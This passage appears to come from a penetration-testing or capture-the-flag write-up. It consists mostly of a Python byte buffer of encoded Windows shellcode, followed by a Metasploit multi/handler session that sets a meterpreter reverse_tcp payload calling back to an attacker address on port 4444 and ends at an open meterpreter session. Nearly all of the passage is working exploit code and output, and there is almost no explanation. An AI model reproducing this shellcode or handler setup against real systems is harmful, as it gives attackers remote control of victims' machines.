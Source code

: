     buf =  b""
    buf += b"\xba\xb8\x5b\xdd\x28\xdb\xdf\xd9\x74\x24\xf4\x5d"
    buf += b"\x31\xc9\xb1\x5e\x31\x55\x15\x83\xed\xfc\x03\x55"
    buf += b"\x11\xe2\x4d\xa7\x35\xa7\xad\x58\xc6\xd8\x9c\x8a"
    buf += b"\x4f\xfd\xba\xa1\x02\xce\xc9\xe4\xae\xa5\x9f\x1c"
    buf += b"\xa0\x0e\x55\x3b\x8f\x8f\xe2\x31\xc7\x5e\x34\x19"
    buf += b"\x2b\xc0\xc8\x60\x78\x22\xf1\xaa\x8d\x23\x36\x7d"
    buf += b"\xfb\xcc\xea\x29\x88\x41\x1a\x5d\xcc\x59\x1b\xb1"
    buf += b"\x5a\xe1\x63\xb4\x9d\x96\xdf\xb7\xcd\x07\x54\xef"
    buf += b"\xcd\xa6\xb9\x9b\x46\xb1\xb8\x55\x22\xfd\xf3\x9a"
    buf += b"\x82\x76\xc7\xef\x14\x5f\x16\x30\xd7\x90\x55\x1c"
    buf += b"\xd9\xe9\x5d\xbc\xaf\x01\x9e\x41\xa8\xd1\xdd\x9d"
    buf += b"\x3d\xc6\x45\x55\xe5\x22\x74\xba\x70\xa0\x7a\x77"
    buf += b"\xf6\xee\x9e\x86\xdb\x84\x9a\x03\xda\x4a\x2b\x57"
    buf += b"\xf9\x4e\x70\x03\x60\xd6\xdc\xe2\x9d\x08\xb8\x5b"
    buf += b"\x38\x42\x2a\x8d\x3c\xab\xb5\xb2\x60\x3c\x7a\x7f"
    buf += b"\x9b\xbc\x14\x08\xe8\x8e\xbb\xa2\x66\xa3\x34\x6d"
    buf += b"\x70\xb2\x52\x8e\xae\x7c\x32\x70\x4f\x7d\x1b\xb7"
    buf += b"\x1b\x2d\x33\x1e\x24\xa6\xc3\x9f\xf1\x53\xc9\x37"
    buf += b"\xf0\xb1\x96\xd0\x6c\xb4\x28\xce\x30\x31\xce\xa0"
    buf += b"\x98\x11\x5e\x01\x49\xd2\x0e\xe9\x83\xdd\x71\x09"
    buf += b"\xac\x37\x1a\xa0\x43\xee\x73\x5d\xfd\xab\x0f\xfc"
    buf += b"\x02\x66\x6a\x3e\x88\x83\x8b\xf1\x79\xe1\x9f\xe6"
    buf += b"\x1d\x09\x5f\xf7\x8b\x09\x35\xf3\x1d\x5d\xa1\xf9"
    buf += b"\x78\xa9\x6e\x01\xaf\xa9\x68\xfd\x2e\x98\x03\xc8"
    buf += b"\xa4\xa4\x7b\x35\x29\x25\x7b\x63\x23\x25\x13\xd3"
    buf += b"\x17\x76\x06\x1c\x82\xea\x9b\x89\x2d\x5b\x48\x19"
    buf += b"\x46\x61\xb7\x6d\xc9\x9a\x92\xed\x0e\x64\x61\xda"
    buf += b"\xb6\x0d\x99\x5a\x47\xce\xf3\x5a\x17\xa6\x08\x74"
    buf += b"\x98\x06\xf1\x5f\xf1\x0e\x78\x0e\xb3\xaf\x7d\x1b"
    buf += b"\x15\x6e\x7e\xa8\x8e\x81\x05\xc1\x31\x62\xfa\xcb"
    buf += b"\x55\x62\xfb\xf3\x6b\x5e\x2a\xca\x19\xa1\xef\x69"
    buf += b"\x01\x3c\xc5\x87\xaa\x99\x8c\x25\xb7\x19\x7b\x69"
    buf += b"\xce\x99\x89\x12\x35\x81\xf8\x17\x71\x05\x11\x6a"
    buf += b"\xea\xe0\x15\xd9\x0b\x21"

Now our exploit is ready lets set up multi handler meterpreter and run the exploit again.

    msf6 > use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LHOST 10.18.91.23
    LHOST => 10.18.91.23
    msf6 exploit(multi/handler) > set LPORT 4444
    LPORT => 4444
    msf6 exploit(multi/handler) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    msf6 exploit(multi/handler) > sessions -i 3
    [*] Starting interaction with 3...
    meterpreter > 
